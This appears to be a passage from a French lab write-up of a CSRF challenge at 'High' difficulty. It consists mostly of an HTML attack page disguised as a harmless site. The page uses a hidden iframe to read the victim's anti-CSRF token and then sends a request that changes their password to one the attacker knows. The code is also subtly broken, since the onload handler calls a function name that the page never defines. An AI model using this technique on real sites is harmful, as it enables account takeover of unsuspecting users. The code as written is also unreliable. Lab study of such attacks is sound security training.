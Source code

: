 ![Alt text](img/csrf/cssrf.png)

#### Niveau de diffuculté: High

        <html>
         <body>
         <p>TOTALLY LEGITIMATE AND SAFE WEBSITE </p>
        <iframe id="myFrame" src="http://localhost/vulnerabilities/csrf" style="visibility: hidden;" onload="maliciousPayload()"></iframe>
        <script>
        function modificationdelapage() {
         console.log("start");
            var iframe = document.getElementById("myFrame");
            var doc = iframe.contentDocument  || iframe.contentWindow.document;
         var token = doc.getElementsByName("user_token")[0].value;
        const http = new XMLHttpRequest();
            const url = "http://localhost/vulnerabilities/csrf/?password_new=motdepassequejeconnais&password_conf=motdepassequejeconnais&Change=Change&user_token="+token+"#";
         http.open("GET", url);
          http.send();
         console.log("password changed");
         }
         </script>
        </body>
    </html>


![Alt text](img/csrf/csrf1.png)

